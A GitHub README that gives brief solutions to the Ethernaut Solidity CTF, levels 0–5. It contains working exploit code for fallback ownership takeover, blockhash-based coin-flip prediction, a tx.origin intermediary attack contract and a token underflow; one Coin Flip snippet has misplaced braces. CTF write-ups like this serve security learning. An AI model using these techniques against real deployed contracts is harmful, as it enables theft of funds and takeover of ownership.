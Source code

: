 # The Ethernaut CTF Challenge Solutions

_The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org/wargames/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players._

Brief solutions for OpenZeppelin's Ethernaut CTF. Writeups pending.

**Completed**

[Level 0: Hello Ethernaut](#HelloEthernaut)  
[Level 1: Fallback](#Fallback)  
[Level 2: Fallout](#Fallout)    
[Level 3: Coin Flip](#CoinFlip)   
[Level 4: Telephone](#Telephone)   
[Level 5: Token](#Token)

<!---

**Pending**
[Level 6: Delegation](#Delegation)
[Level 7: Force](#Force)
[Level 8: Vault](#Vault)
[Level 9: King](#King)
[Level 10: Re-entrancy](#Reentrancy)
[Level 11: Elevator](#Elevator)
[Level 12: Privacy](#Privacy)
[Level 13: Gatekeeper One](#GatekeeperOne)
[Level 14: Gatekeeper Two](#GatekeeperTwo)
[Level 15: Naught Coin](#NaughtCoin)
[Level 16: Preservation](#Preservation)
[Level 17: Recovery](#Recovery)
[Level 18: Magic Number](#MagicNumber)
[Level 19: Alien Codex](#AlienCodex)
[Level 20: Denial](#Denial)
[Level 21: Shop](#Shop)
[Level 22: Dex](#Dex)
[Level 23: Dex Two](#DexTwo)
[Level 24: Puzzle Wallet](#PuzzleWallet)
[Level 25: Motorbike](#Motorbike)
[Level 26: Double Entry Point](#DoubleEntryPoint)
[Level 27: Good Samaritan](#GoodSamaritan)
-->

## Requirements

- [Metamask](https://metamask.io/)
- [Remix IDE](https://remix.ethereum.org)

## <a name='HelloEthernaut'></a> 0. Hello Ethernaut

> This level walks you through the very basics of how to play the game.

```solidity
// Call the functions in the order as suggested
> await contract.info()
< 'You will find what you need in info1().'

> await contract.info1()
< 'Try info2(), but with "hello" as a parameter.'

> await contract.info2("hello")
< 'The property infoNum holds the number of the next info method to call.'

> x = contract.infoNum()
// Expand the promise to reveal "42"

> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

// Query the ABI to locate the password() function
> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```

## <a name='Fallback'></a> 1. Fallback

> You will beat this level if:
>
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```solidity
// First, we contribute some ether:
await contract.contribute({ value: 5 });

// Then we send some ether to make us the owner
sendTransaction({ from: player, to: instance, value: 5 });

// Verify we have claimed ownership
await contract.owner();

// Reduce balance to 0
await contract.withdraw();
```

## <a name='Fallout'></a> 2. Fallout

> Claim ownership of the contract to complete this level.

The contract's constructor is incorrectly titled `Fal1out` instead of `Fallout`. We can call it to claim ownership.

```solidity
// Call the function to claim ownership
contract.Fal1out();

// Verify we have claimed ownership
await contract.owner();
```

## <a name='CoinFlip'></a> 3. Coin Flip

> "Use your psychic abilities" to guess the correct outcome 10 times in a row.

In order to solve, we have a few objectives:

1. Set the contract instance as our target contract
2. Recreate the `flip()` function
3. Pass the `flip()` output into the target instance

Let's begin with recreating a portion of the `flip()` function. We will replicate useful variables of the original function.

```solidity
uint256 lastHash;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

Now, let's setup the target contract. This supports our first objective.

```solidity
CoinFlip public targetContract;
```

Next, we will create the constructor to receive our target address (for the deployed instance). This completes our first objective.

```solidity
constructor(address _targetAddr) public {
  targetContract = CoinFlip(_targetAddr);
  }
```

Let's replicate the remaining essential aspects of the `flip()` function. This completes our second objective.

```solidity
  function flipSolve() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    }
    if (lastHash == blockValue) {
      revert();
      }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
```
Finally, we will pass the side value into the original contract, ensuring our guess is always correct. This completes our final objective.

```solidity
targetContract.flip(side);
```
We patiently call `flipSolve()` 10 times until we have guessed correctly 10 times and solve the level.


## <a name='Telephone'></a> 4. Telephone

> Claim ownership of the contract.

The contract allows for a straightforward exploit given the difference between `msg.sender` and `tx.origin`. By creating a contract that serves an as intermediary to call `changeOwner()`, we can claim ownership of the target contract.

```solidity
// Import the target contract
import './Telephone.sol';

//Create attacking contract
contract HotlineBling {

  // Setup target contract
  Telephone public EthernautHotline;

  constructor(address _targetCellPhone) public {

    // Setup deployed instance as the attack target
    EthernautHotline = Telephone(_targetCellPhone);
  }
    // Execute the attack
    function callTheVictim() public {
        EthernautHotline.changeOwner(msg.sender);
    }

}
```


## <a name='Token'></a> 5. Token

> The goal of this level is to hack the basic token contract and extract additional tokens -- preferably a very large amount of tokens.

The odometer hint reminds us of the possibility for [underflow and overflow](https://docs.soliditylang.org/en/v0.5.11/security-considerations.html#two-s-complement-underflows-overflows).
We will trigger an underflow by transferring more tokens than available. Since we are using `uint`, instead of creating a negative balance, the result will be a large positive integer. 

We will use the `transfer()` function for this exploit, which requires two inputs: destination address and value to send. We'll use an arbitrary address (the ethernaut address) and we'll send 1 token more than we were provided (20+1).


```solidity
// Retrieve the ethernaut address 
> await ethernaut.address
< 0xD991431D8b033ddCb84dAD257f4821E9d5b38C33

// Verify the balance address
> await contract.balanceOf("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33") // expanding reveals the balance is 0

//Verify our own address balance
> await contract.balanceOf(player) // expanding reveals the balance is 20, as expected 

// Execute the exploit, transferring 21 tokens (triggering the overlow) to the ethernaut address 
// (we could also transfer to any valid address)
> contract.transfer("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33", 21)

// After the transaction is confirmed, check the ethernaut balance 
> await contract.balanceOf("0xD991431D8b033ddCb84dAD257f4821E9d5b38C33")  // the balance is 21, as expected 

// Verify our updated address balance
> await contract.balanceOf(player) // revealing Array(11) -- a balance that is "a very large amount of tokens"
```

Fortunately, the Solidity compiler now rejects code resulting in an underflow or overflow, as of v0.8.0. For contracts with previous compiler versions -- like this one -- [OpenZeppelin's SafeMath library](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) is suggested. 